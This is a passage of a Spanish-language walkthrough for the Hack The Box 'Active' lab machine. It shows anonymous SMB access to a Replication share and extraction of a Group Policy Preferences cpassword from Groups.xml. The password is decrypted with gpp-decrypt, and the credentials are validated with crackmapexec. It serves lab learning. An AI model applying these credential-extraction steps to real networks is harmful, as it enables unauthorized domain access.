 ```ruby
smbclient //active.htb/Replication -N
```

Despues de explorar entre los directorios encontramos un archivo llamado **Groups.xml** en el directorio: **\active.htb\Replication\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups**, haciendo uso del comando **get Groups.xml** nos los descargamos

#### Curiosidad

Cuando usamos crackmapexec para enumerar recursos, vimos que estaba uno con el nombre de **SYSVOL**, el cual es un recurso compartido que almacena informacion de la politicas de grupo y scripts de inicio de sesion, al recurso **SYSVOL** se le pueden hacer replicaciones por medio de **DFSR** o **FRS** (esto depende de la version de Windows server), esto es interesante por que la estructura del recurso **Replication** es similar a la de **SYSVOL**, asi que es posible que se haya hecho una replicacion y por eso mismo encontramos el archivo **Groups.xml** en ese directorio

### Crackeando credenciales de GPP

Si vemos el contenido del archivo

```xml
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}">
    <User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}">
        <Properties action="U" 
            newName="" 
            fullName="" 
            description="" 
            cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
            changeLogon="0" 
            noChange="1" 
            neverExpires="1" 
            acctDisabled="0" 
            userName="active.htb\SVC_TGS"/>
    </User>
</Groups>
```

Nos podemos dar cuenta que tenemos el hash de una contraseña para el usuario **SVC_TGS**, el ser una contraseña que se almacena en el archivo **Groups.xml** entonces es una contraseña de **preferencias de política de grupo (GPP)**, podemos usar **gpp-decrypt** con el comando:

```ruby
python3 gpp-decrypt.py -f groups.xml
```

Y la contraseña es: **GPPstillStandingStrong2k18**

Ahora podemos usar **crackmapexec** para validarla

```ruby
crackmapexec smb active.htb -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18'
```
